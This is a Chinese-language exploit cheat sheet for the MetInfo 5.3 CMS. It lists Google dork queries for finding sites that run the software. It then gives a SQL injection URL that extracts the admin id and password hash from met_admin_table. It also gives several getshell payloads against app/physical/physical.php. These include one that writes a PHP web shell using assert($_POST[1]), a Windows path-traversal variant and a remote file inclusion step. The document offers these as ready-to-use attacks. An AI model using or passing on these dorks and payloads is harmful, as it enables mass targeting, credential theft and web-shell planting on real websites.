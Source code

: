 ### 采集

intext:Powered by MetInfo 5.3.19 2008-2018
intext:powered by metinfo 5.3.5 2008-2018 MetInfo Inc
intext:Powered by MetInfo 5.3.17 2008-2018
intext:Powered by MetInfo 5.3.18 2008-2018
intext:Powered by MetInfo 5.3.15 2008-2018
intext:Powered by MetInfo 5.3.12 2008-2018
intext:Powered by MetInfo 5.3.11 2008-2018
intext:Powered by MetInfo 5.3.14
lang=cn,en,tw,tc,
inurl:/about/show.php?lang=cn&id=19
inurl:/about/show.php?lang=cn&id=98
inurl:/download/download.php?lang=&class2=
inurl:news/news.php?lang=&class2=
inurl:/about/show.php?lang=tc&id=
inurl:product/product.php?lang=cn&class2=
inurl:job/showjob.php?lang=tc&id=
inurl:download/showdownload.php?lang=&id=
inurl:case/showimg.php?lang=&id=
inurl:/index.php?lang=&pcok=wap&met_mobileok=
inurl:product/showproduct.php?lang=&id
inurl:index.php?lang=&met_mobileok=
inurl:message/message.php?lang=
inurl:link/addlink.php?lang=
inurl:job/cv.php?lang=&selectedjob=
inurl:/news/shownews.php?lang=cn&id=
静态采集
inurl:news/-cn.html
inurl:news/news.html
inurl:about/contact.html
inurl:solution/list--cn.html
inurl:case/list-115-cn.html
inurl:news/list-5-cn.html
inurl:product1/-cn.html
inurl:product/product___.html
inurl:product/showproduct.html
inurl:news/shownews.html
inurl:/about/19-cn.html 公司简介
inurl:/about/110-cn.html 合作伙伴
inurl:/about/98-cn.htm 联系我们
inurl:/news/list-4-cn.html 公司动态

### 注入 EXP

```
http://127.0.0.1:82/MetInfo5.3/member/login.php/aa'UNION SELECT (select concat(admin_id,0x23,admin_pass) from met_admin_table limit 1),2,3,4,5,6,1111,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29%23/aa
```

### 后台 getshell

1. MetInfo 5.3.19 前的版本

```
/app/physical/physical.php?action=op&op=3&valphy=test|xxx/xxx.php&address=../upload/201807/1531396662310757.jpg
```

1. 通杀 MetInfo 5.3 所有版本

```
app/physical/physical.php?action=op&op=3&valphy=123|xxx/index.php|123;assert($_POST[1]);?>/*
```

1. MetInfo 5.3.19 版本

`app/physical/physical.php?action=op&op=3&valphy=test|/..\upload\file\1506587082.ico/..\..\..\wwwroot\about\xxx.php|1`
wwwroot 是 index.php 上级目录，wwwroot 查找方式是网站根目录加 install/phpinfo.php,ico 图片路径的正反斜杠要和一下一直，这个方法只实用 Windows 系统

1. 远程文件包含 getshell

```
app/physical/physical.php?action=do&met_host=127.0.0.1`
访问:`app/physical/dlappfile.php
```

**参考文章:**
`http://0day5.com/archives/4193/`
`https://blog.csdn.net/qq_38780085/article/details/82220557`
`https://bbs.ichunqiu.com/thread-29686-1-3.html`
